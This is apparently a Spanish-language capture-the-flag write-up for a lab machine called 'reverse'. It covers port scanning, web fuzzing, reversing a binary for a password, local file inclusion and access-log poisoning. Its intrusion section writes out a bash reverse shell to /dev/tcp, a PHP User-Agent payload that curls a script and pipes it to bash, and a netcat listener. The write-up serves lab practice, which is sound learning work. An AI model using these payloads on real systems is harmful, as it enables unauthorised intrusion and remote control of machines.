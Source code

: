 # Maquina reverse

### Puertos abiertos

sudo nmap -sS --min-rate 6000 -p- --open -vvv -Pn 172.17.0.2

![alt text](image.png)

### Servicios y versiones

sudo nmap -sVC --min-rate 6000 -p80 vvv -Pn 172.17.0.2

![alt text](image-1.png)

### Fuzzing Web

gobuster dir -t 200 -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,bak,sh,py,js,html -r -b 403,404 2>/dev/null

no se encontró nada

Entrando en la web:

![alt text](image-3.png)

y al hacer multiples veces clic

![alt text](image-4.png)

accedí a /scret_dir y lo descargué con wget

![alt text](image-2.png)

lo ejecuté:

![alt text](image-6.png)

lo analicé con ghidra

![alt text](image-5.png)

aquí vi la contraseña:
@MiS3cRetd00m

lo volví a ejecutar

![alt text](image-7.png)

lo desencripté con base64:

![alt text](image-8.png)

como se trata de un subdominio lo agrego al /etc/hosts

accedemos a http://g00dj0b.reverse.dl/

![alt text](image-9.png)

![alt text](image-10.png)

la url pinta como LFI:

entonces buscamos el /etc/passwd

![alt text](image-11.png)

accedí a access.log:

![alt text](image-12.png)


### Intrusión

Con la técnica de Log Poisoning

a.- Creamos un archivo shell con el siguiente contenido:

bash -i >& /dev/tcp/172.17.0.1/443 0>&1

b.- Levantamos un servidor con python

python3 -m http.server 80

c.- Enviamos la shell por curl.

curl -i 172.17.0.2 -A "<?php system('curl 172.17.0.1:80/shell | bash'); ?>"

d.- Recargamos la web con la url que tiene el /var/log/apache2/access.log

e.- Ponemos en escucha con netcat

sudo nc -nlvp 443

### Escalar privilegios

![alt text](image-13.png)

transferí el rockyou con wget

![alt text](image-14.png)

contenido del archivo:

![alt text](image-15.png)

![alt text](image-17.png)

![alt text](image-16.png)

siendo nova hice sudo -l

![alt text](image-18.png)

creo un codigo.c

![alt text](image-19.png)

lo compilo y ejecuto:

![alt text](image-20.png)

siendo maci:

![alt text](image-21.png)
